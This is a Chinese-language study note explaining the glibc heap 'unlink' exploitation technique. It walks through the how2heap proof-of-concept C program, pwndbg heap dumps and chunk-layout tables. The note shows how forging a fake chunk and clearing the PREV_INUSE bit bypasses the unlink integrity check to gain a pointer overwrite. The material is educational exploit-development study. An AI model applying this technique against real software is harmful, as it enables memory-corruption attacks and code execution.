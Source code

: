 # 重温unlink笔记

之前其实一直对于unlink有些懵懵懂懂，今天算是差不多彻底搞懂了

unlink其实就是实现了一个功能，使得被视为P Chunk的Chunk指针会变为P-0x18

我们其实就是在一个chunk里面伪造了一个chunk，通过栈溢出修改后面一个chunk的标志位，然后free它后面的一个chunk，发生unlink操作后，伪造的chunk就取代来原来真正chunk的地址

这里以how2heap之unlink作为示例

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
uint64_t *chunk0_ptr;
int main()
{
        int malloc_size = 0x80; //we want to be big enough not to use fastbins
        int header_size = 2;

        chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
        uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1

        chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);

        chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);

        uint64_t *chunk1_hdr = chunk1_ptr - header_size;

        chunk1_hdr[0] = malloc_size;

        chunk1_hdr[1] &= ~1;

        free(chunk1_ptr);

        char victim_string[8];
        strcpy(victim_string,"Hello!~");
        chunk0_ptr[3] = (uint64_t) victim_string;

        chunk0_ptr[0] = 0x4141414142424242LL;
        fprintf(stderr, "New Value: %sn",victim_string);
}
```

不难看出其实整个程序就分配了两个chunk，一个是chunk0，一个是chunk1

```shell
pwndbg> heap
0x603000 PREV_INUSE {
  prev_size = 0,
  size = 0x91,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x603090 PREV_INUSE {
  prev_size = 0,
  size = 0x91,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x603120 PREV_INUSE {
  prev_size = 0,
  size = 134881,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

首先需要指明，我们malloc返回的地址，其实是chunk的mem部分

```
chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of previous chunk, if allocated            | |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of chunk, in bytes                       |M|P|
      mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             User data starts here...                          .
            .                                                               .
            .             (malloc_usable_size() bytes)                      .
            .                                                               |
nextchunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of chunk                                     |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

对应空闲中的chunk（被free后）就是fd的位置

```
chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of previous chunk                            |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    `head:' |             Size of chunk, in bytes                         |P|
      mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Forward pointer to next chunk in list             |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Back pointer to previous chunk in list            |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Unused space (may be 0 bytes long)                .
            .                                                               .
            .                                                               |
nextchunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    `foot:' |             Size of chunk, in bytes                           |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

这里其实就是在chunk0的mem空间中伪造了一个假的chunk

```c
chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
```

具体是这样的：

| chunk0（0x603000）  |               |            fake_chunk             |                |
| :-----------------: | :-----------: | :-------------------------------: | :------------: |
|      prev_size      |               |                                   |                |
|        size         |               |                                   |                |
| chunk0_ptr->men->fd | chunk0_ptr[0] |                                   | fake_prev_size |
|         bk          | chunk0_ptr[1] |                                   |   fake_size    |
|                     | chunk0_ptr[2] | &chunk0_ptr-(sizeof(uint64_t)*3); |    fake_fd     |
|                     | chunk0_ptr[3] | &chunk0_ptr-(sizeof(uint64_t)*2); |    fake_bk     |

我们回顾一下unlink的检查操作：

- P.fd->bk = P
- P.bk->fd = P

因为我们直到对于一个chunk：

- fd = chunk_addr（head）+ 0x10
- bk = chunk_addr（head）+ 0x18

所以最后就是：

P.fd + 0x18 = P.bk + 0x10

我们这时候查看一下chunk0中构造的fake_chunk

```c
pwndbg> x/10gx 0x603010
0x603010:       0x0000000000000000      0x0000000000000000
0x603020:       0x0000000000602058      0x0000000000602060
0x603030:       0x0000000000000000      0x0000000000000000
0x603040:       0x0000000000000000      0x0000000000000000
0x603050:       0x0000000000000000      0x0000000000000000
```

|          | fake_chunk |                    |
| :------: | :--------: | :----------------: |
| 0x603010 | prev_size  | 0x0000000000000000 |
| 0x603018 |    size    | 0x0000000000000000 |
| 0x603020 |     fd     | 0x0000000000602058 |
| 0x603028 |     bk     | 0x0000000000602060 |

```
uint64_t *chunk1_hdr = chunk1_ptr - header_size;
chunk1_hdr[0] = malloc_size;
chunk1_hdr[1] &= ~1;
```

这里其实是这样的：

|               |  chunk1   |             |
| :-----------: | :-------: | :---------: |
| chunk1_hdr[0] | prev_size | malloc_size |
| chunk1_hdr[1] |   size    |    &= ~1    |
|  chunk1_ptr   |    fd     |             |
|               |    bk     |             |

相当于修改了chunk1的size位，使得系统认为前一个chunk已经被free，这时候free chunk1就会发生合并操作，这时我们构造的fake_chunk就是P开始检查P的合法性

- P.fd = &chunk0_ptr-(sizeof(uint64_t)*3) = P.mem - 0x18
- p.bk= &chunk0_ptr-(sizeof(uint64_t)*2) = P.mem - 0x10

于是：

- P.fd + 0x18 = P.mem
- P.bk + 0x10 = P.mem
- P.fd + 0x18 = P.bk + 0x10

显而易见的合法，unlink检查被绕过了，chunk1和fake_chunk发生了合并操作，fake_chunk被认为是chunk0